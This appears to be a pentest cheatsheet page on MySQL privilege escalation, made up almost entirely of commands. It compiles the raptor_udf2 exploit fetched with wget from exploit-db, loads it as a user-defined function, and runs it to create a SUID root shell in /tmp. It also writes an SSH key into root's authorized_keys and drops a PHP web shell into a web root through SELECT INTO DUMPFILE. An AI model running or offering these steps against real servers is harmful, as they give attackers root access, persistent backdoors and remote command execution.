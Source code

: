 ```yaml
---
title: "Mysql Privilege Escalation"
date: 2024-6-27
tags: ["mysql", "database", "RCE", "php", "UDF", "exploit", "pe"]
---
```


### Abuse #1: User Defined Function (UDF)

```console
# Get the raptor_udf2.c
wget https://www.exploit-db.com/raw/1518 -O raptor_udf2.c
```

```console
# Compile the source script
gcc -g -c raptor_udf2.c
```

```console
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```console
# Copy to target folder
cp raptor_udf2.so /dev/shm/raptor_udf2.so
```

```console
# Connect to database as root
mysql -u root -p<PASSWORD> mysql
```

```console
# UDF
create table foo(line blob);
```

```console
insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
```

```console
# Get plug-in directory
show variables like '%plugin%';
```

```console
+-----------------+---------------------------------------------+
| Variable_name   | Value                                       |
+-----------------+---------------------------------------------+
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma                                       |
+-----------------+---------------------------------------------+
```

```console
# Copy the plugin_dir value
select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so'; 
```

```console
create function do_system returns integer soname 'raptor_udf2.so';
```

```console
# RCE
select do_system('cp /bin/bash /tmp/shell; chmod 4777 /tmp/shell');
```

---

### Abuse #2: Add ssh public key to root

```console
# Connect to database as root
mysql -u root -p'<PASSWORD>' mysql
```

```console
# Check privilege
select current_user();
```

```console
show grants for root@localhost;
```

```console
# If mysql file write is not able to append or overwrite authorized_keys
select "BASE64_PUB_KEY" into outfile "/root/.ssh/authorized_keys2";
```

---

### Abuse #3: Create php File from Database to RCE

```console
create table test(stuff text);
```

```console
insert into test values('<?php system($_REQUEST["cmd"]); ?>');
```

```console
select * from test into dumpfile 'C:\\xampp\\htdocs\\cmd.php';
```
